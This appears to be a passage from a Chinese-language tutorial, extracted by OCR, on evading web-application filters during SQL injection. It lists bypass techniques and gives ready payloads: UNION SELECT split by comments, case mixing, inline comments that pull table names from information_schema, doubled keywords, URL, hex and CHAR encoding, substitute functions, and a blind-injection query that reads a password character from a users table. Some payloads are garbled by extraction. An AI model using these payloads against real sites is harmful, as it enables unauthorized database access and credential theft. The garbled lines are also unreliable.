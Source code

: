 #### （1）使用注释符绕过

常用注释符：

//，-- , /\*\*/, #, --+, – -, ;,%00,–a

用法：

U// NION // SE// LECT //user，pwd from user

#### （2）使用大小写绕过

```php
id\=-1’UnIoN/\*\*/SeLeCT
```

#### （3）内联注释绕过

```php
id\=-1’/!UnIoN/ SeLeCT 1,2,concat(/!table\_name/) FrOM /information\_schema/.tables /!WHERE //!TaBlE\_ScHeMa/ like database()#
```

#### （4） 双关键字绕过（若删除掉第一个匹配的union就能绕过）

```php
id\=-1’UNIunionONSeLselectECT1,2,3–\-
```

### 第十种方法:通用绕过（编码）

如URLEncode编码，ASCII,HEX,unicode编码绕过：

or 1=1即%6f%72%20%31%3d%31

而Test也可以为CHAR(101)+CHAR(97)+CHAR(115)+CHAR(116)

### 第十一种方法:等价函数绕过

hex()、bin() ==&gt; ascii()

sleep() ==&gt;benchmark()

concat\_ws()==&gt;group\_concat()

mid()、substr() ==&gt; substring()

@@user ==&gt; user()

@@datadir ==&gt; datadir()

举例：substring()和substr()无法使用时：

```php
?id\=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))\=74
```

或者：

```php
substr((select ‘password’),1,1) \= 0x70
```
